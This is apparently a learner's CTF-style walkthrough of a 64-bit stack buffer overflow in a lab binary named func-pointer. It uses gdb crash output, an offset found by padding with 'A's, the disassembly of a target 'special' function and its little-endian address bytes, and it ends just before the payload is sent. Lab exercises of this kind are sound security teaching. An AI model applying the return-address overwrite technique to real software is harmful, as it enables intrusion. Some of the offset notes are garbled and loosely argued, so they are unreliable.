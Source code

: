 ```
AAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000414141414141 in ?? ()


(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-2/func-pointer 
AAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x00000000004005da in main ()


As we can see, sending an input of 20 "A"s overwrites the return address with all "41"s (the hex conversion of 'A').  Meaning, we have successfully overwritten the return address! In the next one, overwriting it with 21 "A"s causes the return address to no longer be overwritten and redirect somewhere else, meaning we went too far!  That means we then have 6 bytes with which to overwrite the return address (20-14=6).

so when is 0x0000414141414141 need to rest 6 and it's the segmentation fault when begins

┌──(kali㉿kali)-[~]
└─$ python2               
Python 2.7.18 (default, Aug  1 2022, 06:23:55) 
[GCC 12.1.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> print 'A' * 20
AAAAAAAAAAAAAAAAAAAA (it's limited)
>>> print 'A' * 21
AAAAAAAAAAAAAAAAAAAAA (fail)

Overwriting the return address with the Special Function
We now have all the pieces set up in order to return to the special function, except one: the address of the special function! To find this, inside of gdb we can find it like so:

disassemble special

(gdb) disassemble special
Dump of assembler code for function special:
   0x0000000000400567 <+0>:     push   %rbp
   0x0000000000400568 <+1>:     mov    %rsp,%rbp
   0x000000000040056b <+4>:     mov    $0x400680,%edi
   0x0000000000400570 <+9>:     callq  0x400460 <puts@plt>
   0x0000000000400575 <+14>:    mov    $0x40069d,%edi
   0x000000000040057a <+19>:    callq  0x400460 <puts@plt>
   0x000000000040057f <+24>:    nop
   0x0000000000400580 <+25>:    pop    %rbp
   0x0000000000400581 <+26>:    retq   
End of assembler dump.

Great, from the first line, we see that the function begins at '0x0000000000400567'.  So what we need to do next is overwrite the return address with what we've found!

As was mentioned earlier in the room, the architecture determines the endianess of the memory.  We're dealing with little endian, and so the memory location we actually need to write, written in little endian, is:

\x67\x05\x40\x00\x00\x00 

now let's do it!
```